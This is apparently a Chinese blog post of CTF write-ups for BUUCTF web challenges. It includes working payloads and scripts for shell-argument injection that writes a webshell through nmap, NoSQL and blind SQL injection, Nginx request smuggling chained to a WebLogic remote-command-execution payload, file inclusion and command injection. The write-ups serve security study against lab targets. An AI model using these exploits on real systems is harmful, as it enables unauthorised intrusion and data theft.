


BUU记录系列丛书三【不知名的Atmujie著】
BUUCTF———Three
[BUUCTF 2018]Online Tool
escapeshellarg和escapeshellcmd联合使用的安全漏洞
关于这个漏洞还提到了一个有趣的背景,参考链接https://paper.seebug.org/164/
这里简单解释一下原理，顺便借此机会给我理一遍思路，具体原理来上面链接
首先是escapeshellarg函数
这个函数的作用是将要输入的字符全部加单引号包裹，如果遇到特殊字符，则会在前面加上\进行转义
1
escapeshellarg: '1'
escapeshellcmd(escapeshellarg()): '1'
1 a <
escapeshellarg: '1 a <'
escapeshellcmd(escapeshellarg()): '1 a \<'
1'
escapeshellarg: '1'\'''
escapeshellcmd(escapeshellarg()): '1'\\''\'
'1'
escapeshellarg: ''\''1'\'''
escapeshellcmd(escapeshellarg()): ''\\''1'\\'''
可以看到，当没有单引号时，无论我输入什么，都会给字符串加转义符，然后用单引号包裹
测试后可以发现，这个函数对单引号的处理和其他符号时不同的
面对单引号，它会先将已有的单引号拿出来转义，然后用单引号包裹，之后将转义包裹好的字符串再次单引号包裹
处理的逻辑并没有问题，但当我们加上escapeshellcmd，就会出现问题
escapeshellcmd的作用只有一个，就是对特殊字符进行转义，而被转义的特殊字符包括转义符本身
' -version '
escapeshellarg: ''\'' -version '\'''
escapeshellcmd(escapeshellarg()): ''\\'' -version '\\'''
// 可以看到最后格式变成了 -version \,如果 -version是一个命令选项，那么该命令被执行
nmap将获取的信息写入文件
nmap有一个选项可以将扫描到的信息写入指定文件中
"1111"-oG 1.php // 将111写入1.php
通过这两个小点，我们就可以写入木马getshell
payload
' -oG shell.php '
flag
flag{4ae6209a-310d-474e-83fc-eb79e590d0aa}
知识点太老了，毕竟2021年了，不过这道题倒是可以打开参数注入的大门
虽然我感觉没给我打开
顺便写句话，注入并不是严格的分类，包括sql,参数，nosql，xss在内其实都一样
总结：注入是个思想，它是告诉我们如何将传入参数变为执行指令的思想
同理，SSRF也是思想
Web看似杂乱无章，其实不过是一个个思想的整合
[GKCTF 2021]hackme
hackme是一道很有难度的题目，这道题没wp，我想解出来估计得明年
nosql注入
第一步很简单，只是一个nosql注入
import requests
import string
strs = string.printable
payload = "^"
url = "http://node4.buuoj.cn:28281/login.php"
while True:
for i in strs:
if i in ['*', '+', '.', '?', '|', '#', '&', '$']: continue
exp = payload + i
data = '{"username": "admin", "password": {"\\u0024\\u0072\\u0065\\u0067\\u0065\\u0078": "' + exp + '"}}'
res = requests.post(url, data).text
if "登录了" in res:
payload = exp
print("[res:]" + payload)
用户名：：admin, 密码：42276606202db06ad1f29ab6b4a1307f
后面我就是全程怼着出题人wp看了
请求走私漏洞
登录成功后，可以直接任意文件读取，同时在读flag时后给出提示
flag在内网

根据提示，去读配置文件
抓包可得知是nginx服务器，版本1.17.6
读取/proc/self/environ查看当前服务的默认位置，
得知nginx当前nginx服务器运行在/usr/local/nginx目录下，所以读取/usr/local/nginx/conf/nginx.conf
圈出的位置告诉我们存在请求走私漏洞，这里反正我是没看出来，经验问题
[https://v0w.top/2020/12/20/HTTPsmuggling/#5-1-%EF%BC%88CVE-2019-20372%EF%BC%89Nginx-error-page-%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81%E6%BC%8F%E6%B4%9E](https://v0w.top/2020/12/20/HTTPsmuggling/#5-1-（CVE-2019-20372）Nginx-error-page-请求走私漏洞)
通过这个漏洞去打
exp
接下来直接上w4的exp
#!/usr/bin/env python3
import sys
import socket
import requests
import urllib.request
def request(content, hostname, port):
print(content)
def issue_request(server):
assert server.send(content) == len(content)
data = server.recv(1024)
while len(data) > 0:
print(data.decode())
data = server.recv(1024)
with socket.create_connection((hostname, port)) as raw_socket:
issue_request(raw_socket)
try:
raw_socket.shutdown(socket.SHUT_RDWR)
except Exception as e:
pass
def encode(payload, hostname):
offset = 5 + payload.count("\n")
return (
(firstRequest.format(hostname=hostname, length=len(payload) + offset) + payload)
.replace("\n", "\r\n")
.encode("utf-8")
)
def main(hostname, port):
# payload = '''GET /console/login/LoginForm.jsp HTTP/1.1
# Host: weblogic
#
# '''
exp = '''/console/css/%252e%252e/consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();%27)'''
payload = f"""GET """ + exp + """ HTTP/1.1
Host: weblogic
cmd: /readflag
Connection: close
"""
request(encode(payload, hostname), hostname, port)
# ps：第一次访问先用第一个payload，然后再打第二个
if __name__ == "__main__":
firstRequest = """GET /a HTTP/1.1
Host: {hostname}
Content-Length: {length}
"""
hostname = "node4.buuoj.cn"
port = 27744
main(hostname, port)
成功拿到flag
flag{cdc12caf-9c11-4d10-8d1a-f370c33d2464}
[WUSTCTF2020]颜值成绩查询
sql注入
输入框直接注入，不过这题有毒，我总觉得可以联合查询，但事实是我做不到，也不知道是做了什么过滤，所以只能盲注了
猜测语句
select * from users where id=$id
手撸个盲注脚本
#exp:
import time
import requests
import string
# ABCDEFGHIJKLMNOPQRSTUVWXYZ
strs = "0123456789abcdefghijklmnopqrstuvwxyz!\"#$%&'()*,-./:;<=>?@[\]^_`{|}"
url = "http://11adfa12-10fb-4852-a4c4-11383ec32067.node4.buuoj.cn:81/?stunum="
flag = ""
num = 1
a = 0
while True:
a += 1
if a == 3:
exit("注入结束")
for i in strs:
# print(i)
# print(num)
# exp = "1=(1=if((substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))," + str(num) + ",1)='" + i + "')=1,1,0))=1"
# exp = "1=(1=if((substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag'))," + str(num) + ",1)='" + i + "')=1,1,0))=1"
exp = "1=(1=if((substr((select(group_concat(flag,\":\",value))from(ctf.flag))," + str(num) + ",1)='" + i + "')=1,1,0))=1"
res = requests.get(url + exp).text
if "admin" in res:
num += 1
flag += i
# print(res)
print("res: " + flag)
time.sleep(1)
a = 0
库名：ctf
表名：flag
这里有个小点，mysql中表名列名都是小写字母，但匹配时大小写均可，所以这里表名是flag而不是flAG，flAG是代码逻辑问题,上面ctf也一样，所最好是用ascii码去匹配
1=(1=if((substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),1,1)>"a")=1,1,0))=1
列名：flag,value
flag
反正flag里大概率不会有大写字母，我就直接把脚本里大写字母去了，省点事
flag{cce2ac4d-3c5f-48c6-86db-d2fa7f64b182}
[b01lers2020]Life on Mars
sql注入，联合查询
代码回显多的给我整不会了，差点觉得是MongoDB注入，还好sqlmap给力，直接就跑出来了
这里也提供一个思路，不知道sql注入的考点时，不妨用sqlmap跑一跑，sqlmap可能并不会跑出flag，但很多时候都能跑出注入的思路
之前有一道我怎么都没想到的时间盲注，就是用sqlmap跑了一下，虽然sqlmap跑不出结果，但我看到时间盲注的点，我就已经会做了
这道题sqlmap直接跑出来
简单说说思路
进题目随便点点，url并没有变化，大概率要抓包
然后抓包发现只有search参数在变化，猜测注入点就是search
接着发现无论我怎么修改回显都是1，有点猜不到，直接上sqlmap
联合查询还没过滤，sqlmap直接跑，不过手注思路当然不是这个
知道是联合查询，并且不需要闭合后，就可以去试试
确实是联合查询，那么后面也就没啥好说的了，又没过滤，想怎么干怎么干
payload
?search=amazonis_planitia union select 1,group_concat(code) from alien_code.code
flag
flag{5b1d58b7-5e26-4c0a-9950-d477721135c7}
October 2019 Twice SQL Injection
二次注入
进去一共三个页面，注册登录和信息
本来猜到了但我懒的试，sqlmap试着跑了跑啥也没发现，就回来试试，顺便因为试了三分钟没试出来看了眼wp
看来今天不能再做题了，已经没那心思了
正常注册登录
三个页面，有注册有登录，很明显的二次注入特征
用户名加个单引号注册
可以发现字没了，说明出错了，哪里出错？只对数据库下了手，那必然是数据库出问题了
联合查询
库：ctftraining,information_schema,mysql,performance_schema,test
表：flag,news,users
列不用试了，肯定是flag
直接跑结果
payload
username=Ataaa' union select group_concat(flag) from ctftraining.flag %23&password=1111
flag
flag{de9543d1-8e60-4746-a3a1-75d9e3dd6f81}
[RootersCTF2019]babyWeb
报错注入
语句过滤全都说了，而且有报错，所以直接报错注入
?search=1 and updatexml(1,(select concat(0x7e,database(),0x7e)),1)#
库：information_schema,mysql,performance_schema,sql_injection
?search=1 and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),30,60)),1)#
表：users
?search=1 and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=0x73716c5f696e6a656374696f6e),1,30)),1)#
列：USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,user,uniqueid
?search=1 and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name=0x7573657273),30,60)),1)#

数据:admin: 837461526918364526
?search=1 and updatexml(1,concat(0x7e,substr((select group_concat(user, 0x3a20,uniqueid) from users),1,90)),1)#
flag
flag{7b7c23f0-a0f7-4620-9751-577c3ae55c4b}
[BSidesCF 2020]Had a bad day
文件包含
这里我其实并不是很懂他的包含逻辑

简单来说就是html里是这样的逻辑，以get的方式提交 一个值，默认为category=woofers
然后后端处理后返回图片，看了眼wp，这题的包含逻辑就是无脑写在参数位置
这谁想的到，就硬试呗，试两小时试出来，浪费时间
所以这里的逻辑是包含woofers、meowers、index三个中的一个，然后包含
所以用../来迎合这个限制 ps:我试图读/flag读了好久，忍不住看了眼wp脑子才转过弯，这题flag在flag.php里
还是练的少了
payload
?category=php://filter/convert.base64-encode/resource=index/../flag
flag
flag{d85431ee-c8f8-42b7-98c0-cc3da7299bdb}
[RoarCTF 2019]Easy Java
javaWeb基础知识
这道题考察了javaweb的基础知识
进入题目后有个help页面
这里提示是FileNotFoundException 这是java在文件不存在时抛出的异常
所以这里存在文件包含
这里需要POST传参读取文件，至于为什么，我也不明白，只是毫无逻辑的瞎猜罢了，虽说学web这种瞎猜很常见
基础知识
目前javaweb导包工具Moven，在idea中用这个工具新建一个javaweb项目时，会自动的在webapp目录下创建一个WEB-INF目录

这个目录在项目构建成war后位于项目输出目录的根目录下
WEB-INF目录中的文件无法通过路径访问，只能通过web.xml中定义的路径映射去访问
war包： jar包和war包的区别事jar包只是相当于对class文件做了一个压缩处理，不会构建java使用的包文件，想运行jar包，自己java环境必须有相应的包
war包则不然，war包会同时打包java项目使用的包文件，如果想运行一个java网站，只需要将war包丢到tomcat下的webapps下即可
言归正传
所以这道题先读取WEB-INF下的web.xml文件得到路径映射所对的文件
得知flag在com/wm/ctf/FlagController.class中
读取并反编译
payload
filename=WEB-INF/classes/com/wm/ctf/FlagController.class
flag
flag{70abb9b1-c49a-4624-8c7d-251d871797fa}
EasyBypass
用注入的思想命令执行
这道题传入两个参数，第一个参数过滤少，第二个过滤的很死
写入在线正则可以发现
第二个参数可以说什么都写不了，所以只能使用第一个参数
思路就这点
payload
?comm1=-c index.php"; tac /fla?;"
flag
flag{cde14bea-0afa-44c7-b653-0513c2eba2be}